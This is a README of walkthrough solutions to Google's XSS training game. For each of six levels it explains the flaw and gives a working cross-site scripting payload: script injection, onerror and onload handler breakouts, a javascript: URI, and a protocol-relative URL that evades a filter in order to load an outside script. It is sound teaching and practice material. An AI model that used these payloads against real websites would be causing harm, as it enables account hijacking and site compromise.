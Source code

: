 # GoogleXSSGame
Solutions to the Google XSS game. I've put in notes on any tricks or thoughts I had while doing this, so hopefully this helps if (like me) this is the first time you are doing something like this.

Warning, contains spoilers so be careful if you are playing the games. 

##Challenge 1
We are presented with a simple text entry box on a website. A quick check shows that the text box does no filtering or validation and creates a URL link with exactly what is written in to it.
This means we can inject an HTML elemnt straight away. The easiest element to inject is:
```HTML
<script>alert("Winner!")</script>
```
Enter this directly in to the textbox and you should be fine.
Alternately, you can enter this as part of the URL:
```HTML
https://xss-game.appspot.com/level1/frame?query=<script>alert("Winner!")</script>
```

##Challenge 2
We now have a blog type website, where we can enter text that gets displayed as a new entry. 
Entering our solution from Challenge 1 simply creates a new blog post with our entry in the `<blockquote>` tags. We know that this won't work for us. Instead of a direct injection, let's try an error injection to see if we can abuse JavaScript a little bit. Using the `<img>` tag, let's see if we can use an `onerror` as suggested in the hints:
```JavaScript
<img src="this.gif" onerror=alert("Winner!") />
```
If you enter this as your new blog post, you should see the alert pop up and show that you have outsmarted it. 

##Challenge 3
Looking at how we can manipulate this, we see that the only place we can inject a new element is directly into the URL bar. Taking a look at the JavaScript running here, we can see that this is where the input into the URL bar is processed:
```JavaScript
<script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      } 
      ...
    </script>
```
The `chooseTag(num)` function is where the input is processed, so let's see if we can abuse this. This function is going to insert an HTML element with a title and the picture link. Interestingly, the title part has the `num` input being passed through a `parseInt(num)` function, but the link to the picture does not. We know that we cannot inject anything here, as the `parseInt(num)` function will just return a NaN response. However, looking at the next line, we see that the `num` parameter is simply used there without being tested or escaped. This looks like a great place to break in.

If we insert a `1` as the `num` parameter, we expect the website to operate as usual. However, if we can manipulate what is inserted here, we could potentially cause an injection like we did in the previous challenge. Looking at the link that sources the `img` in the JavaScript, let's make it look like this:
```HTML
<img src="/static/level3/cloud1" onerror="alert("Winner!")/>
```
To do this, we just needed to add the input `1' onerror='alert("Winner!")'/>` to the URL.
I found that this doesn't work in Firefox as firefox seems use URL encoding to replace the ' and " symbols. I'm not 100% sure why, but Chrome doesn't do this.

##Challenge 4
Let's take a look at what we have here. We have a freetext box (that takes anything) which kicks off a timer to display a message. The box functions correctly when we put in a number and anything else just causes the spinner to keep going and going and going. Looking at what happens when we press the button, we see that we put a call to the `startTimer()` function and then draw the spinner using the `onload` feature of an image. This looks like a fantastic place to try break.

The HTML element that is drawn looks like this for an input of 60:
```HTML
<img src="/static/loading.gif" onload="startTimer('60');">
```
We want to manipulate it to look like this:
```HTML
<img src="/static/loading.gif" onload="startTimer(''); alert('Winner!');">
```
So we can simply insert the string `'); alert('Winner!'` into the textbox to break it.

##Challenge 5

Here we have a very simple web app that will grab an input email address and sign it up for a service. Looking at the code running on the site, you can see that although there is a nice textbox that looks like it will be a great place to break in, nothing in actually done with the text input. However, looking at the scripting here, we see that on each page the next page is displayed in the URL. Looking closer, whatever is put in this URL is passed through a decision tree and eventually ends up as an `href` HTML link. Now this looks like something we can use.

The easiest thing to do here would be to create a fake link and an onClick event, similar to what we would have done before. The name of the challenge is "Breaking protocol" though, so maybe there is another way. The `href` tag actually allows us to insert a JavaScript function in place of a link and this sounds like something we can abuse nicely.
A little bit of playing around shows that we can insert this:
```HTML
javascript:alert("Winner!")
```
This will then turn the link that is created into a starter for the JavaScript function which will display the alert.

##Challenge 6
Time for the last bit of this game. We now want to load an external JavaScript file into the site. With this, it means we can do all sorts of naughty things. From what we have done before, we can see that the URL attack is the way to go. The parameter `frame#` serves as a placeholder for whatever script we want loaded into the service. The service will attempt to retrieve this as part of the normal scriptloading process in the `head` section of the HTML.

Before we start trying to get a file loaded, we need to have a file to load. I don't have my own server running where I can host the file so I'm going to go with the hint of using the google.com/jsapi service. If we navigate to http://www.google.com/jsapi?callback=foo, we see a very long file that ends in `foo();`. With a bit of guesswork, we can see that if we use the parameter `callback=alert` we will get back a JavaScript file which contains the line `alert();`. This should be exactly what we want.

Putting the link `http://www.google.com/jsapi?callback=alert` directly into the URL of the website, we now trigger a warning that says that we cannot use some containing the http:// string. Looking at the piece of the website that triggers this warning, we see that it is quite a simple validator that specifically looks for the string "http://...". Perhaps we could get past this by simply not putting the "http:" part into our link?

```HTML
//www.google.com/jsapi?callback=alert
```
This gets past the validator and loads the JavaScript file that we looked at earlier. 

#Conclusion
If you are reading this and know of any other similar challenges, please let me know.
